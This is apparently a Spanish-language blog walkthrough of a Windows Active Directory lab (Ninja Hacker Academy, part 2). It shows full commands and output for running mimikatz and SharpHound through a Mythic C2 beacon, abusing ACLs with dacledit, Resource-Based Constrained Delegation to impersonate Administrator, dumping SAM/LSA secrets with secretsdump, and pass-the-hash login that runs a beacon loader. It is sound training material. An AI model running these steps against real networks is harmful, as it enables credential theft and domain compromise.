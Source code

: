 ```yaml
---
layout: single
title: Ninja Hacker Academy Parte 2
excerpt: "En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red."
date: 2025-09-22
classes: wide
header:
  teaser: /assets/images/NHA/logo_NHA.jpeg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```



<p align="center">
  <img src="/assets/images/NHA/logo_NHA.jpeg" alt="Logo NHA" style="max-width:60%; height:auto;">
</p>

# Introducción
En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red.

Partimos del contexto en el que tenemos dos beacons del sistema sql, con la ip 192.168.56.21, uno con la cuenta NT AUTHORITY\NETWORK SERVICE, y otro con privilegios de SYSTEM.

Vamos a editar el fichero hosts de nuestra máquina atacante, para que pueda resolver los nombres de las máquinas del laboratorio. Para ello, netexec nos facilita la tarea, de esta forma:

```bash
nxc smb 192.168.56.0/24 --generate-hosts-file hosts.txt
```

![](/assets/images/NHA/hosts.png)

Una de las tareas más importantes a la hora de ejecutar un pentesting en un entorno de active directory, es obtener la data de bloodhound, para poder enumerar en condiciones todo el entorno. Para ello, es posible ejecutar en memoria SharpHouind.exe desde Mythic, que nos proporcionará lo que necesitamos.

Con register_assembly lo cargamos en Mythic, y con execute_assembly lo ejecutamos.

![](/assets/images/NHA/sharphound.png)

```bash
execute_assembly SharpHound.exe -c All,GPOLocalGroup
```
![](/assets/images/NHA/sharphound2.png)

Ahora es posible descargarlo para analizarlo desde bloodhound.

![](/assets/images/NHA/download_blood.png)

Además vamos también a ejecutar mimikatz desde mythic, para intentar obtener hashes que nos puedan servir para movernos lateralmente.

```bash
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"
```

![](/assets/images/NHA/mimi.png)

Y obtenemos el hash ntlm de la cuenta de máquina sql$

```
* Username : SQL$
	 * Domain   : ACADEMY
	 * NTLM     : 87301c6906621fb1b4973ec2b2f4d937
	 * SHA1     : f52af5354b64f68fb9deef15e3a37de252d017e9
	 * DPAPI    : f52af5354b64f68fb9deef15e3a37de2
```


Si nos vamos a bloodhound y buscamos la cuenta de máquina sql, vemos que tiene GenericAll sobre un contenedor llamado computers, y bloodhound nos sugiere utilizar dacledit con el parámetro -inheritance, para que se hereden los permisos a todos los objetos que hayan dentro del contenedor.

![](/assets/images/NHA/bloodhound3.png)

```bash
dacledit.py -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937 -inheritance
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250926-194525.bak
[*] DACL modified successfully!
```

![](/assets/images/NHA/dacledit.png)

Ahora, si actualizamos la data de bloodhound, volviendo a ejecutar el comando de antes, descargando el nuevo archivo y subiéndolo a bloodhound vemos que tenemos GenericAll también sobre la máquina web$. Y además nos sugiere que utilicemos la técnica RBCD (Resource-Based Constrained Delegation).

![](/assets/images/NHA/bloodhound4.png)

Con lo cual vamos a seguir los pasos que nos indica bloodhound, adaptando los comandos al entorno. Lo primero, creamos una cuenta de máquina llamada ximo$ con la contraseña Password123!

```bash
addcomputer.py -computer-name 'ximo$' -computer-pass 'Password123!' -dc-host academy.ninja.lan "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account ximo$ with password Password123!.
```

![](/assets/images/NHA/addcomputer.png)

Ahora es posible crear la delegación utilizando otro comando de impacket (rbcd)

```bash
rbcd.py -delegate-from 'ximo$' -delegate-to 'web$' -dc-ip 'academy.ninja.lan' -action 'write' "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ximo$ can now impersonate users on web$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ximo$        (S-1-5-21-491962646-2799345496-3044782539-1137)
```

![](/assets/images/NHA/rbcd.png)

Ahora podemos solicitar un ticket de servicio usando getST.py para el servicio CIFS, y vamos a impersonar al usuario Administrador.

```bash
getST.py -spn 'cifs/web.academy.ninja.lan' -impersonate Administrator -dc-ip 'academy.ninja.lan' "academy.ninja.lan"/"ximo$":"Password123\!"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache
```

![](/assets/images/NHA/getst.png)

Exportamos la variable de entorno para poder utilizar el ticket obtenido

```bash
export KRB5CCNAME=Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache
```

Y ya podemos utilizar netexec para autenticarnos en la máquina web con el usuario Administrator, y volcar los hashes de la máquina.

```bash
nxc smb 192.168.56.21 -k --use-kcache
SMB         192.168.56.21   445    WEB              [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB) (domain:academy.ninja.lan) (signing:False) (SMBv1:False)
SMB         192.168.56.21   445    WEB              [+] academy.ninja.lan\Administrator from ccache (Pwn3d!)
```
![](/assets/images/NHA/kcache.png)

```bash
secretsdump.py administrator@web.academy.ninja.lan -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x740c8677f51ec010b35e0195e51bed3c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0c532fcf2046010cb8d38eedf5e45312:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6d587fe93bb333e51b07759bc056d261:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ACADEMY\WEB$:plain_password_hex:2d00620042002a0025003f00670030006a003c002400600045002900230052006600400037004f0057002c00760027005d00200068006f003c004f0046004700540077003400310064005b007a0048004600270037002f003500650024003f005800560041004f006e00350032003b002100590073007800560070004a00500045003e003e006a00700041002d00330071006f004f00480070003f002a0035004a00620042004c0066007a0052006d004a005e0076004e005c00460079006e0056003c003c003e0079004c007a0066006700730066003e005000490053004e0055004100360037002900220049005100
ACADEMY\WEB$:aad3b435b51404eeaad3b435b51404ee:2867f65a4e9e216947e1f2703c618730:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xa730ebdd56bc3da3e79b6dc4f5dfd7b19f354248
dpapi_userkey:0x1984dedd875722fce8677694599f4bc7ef0c1776
[*] NL$KM
 0000   6A 2F A7 33 55 6E B4 2D  26 EA 27 3B 9B C0 A2 5C   j/.3Un.-&.';...\
 0010   D6 5C CC CC 8C 6A 7B 82  D1 83 BC 0B 4F 1A 89 42   .\...j{.....O..B
 0020   66 4F 98 75 84 97 FF AE  F4 C4 7A 60 0D 6A 41 DA   fO.u......z`.jA.
 0030   75 B3 F0 BD 65 28 BD 52  06 8C 06 AA DB BB A1 9A   u...e(.R........
NL$KM:6a2fa733556eb42d26ea273b9bc0a25cd65ccccc8c6a7b82d183bc0b4f1a8942664f98758497ffaef4c47a600d6a41da75b3f0bd6528bd52068c06aadbbba19a
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

A continuación podemos conectarnos con evil-winrm, ejecutar nuestro loader para recibir el beacon en mythic y leer la flag.

```bash
evil-winrm -i 192.168.56.21 -u administrator -H 0c532fcf2046010cb8d38eedf5e45312
upload SimpleLoader.exe
.\SimpleLoader.exe
```

![](/assets/images/NHA/webflag.png)






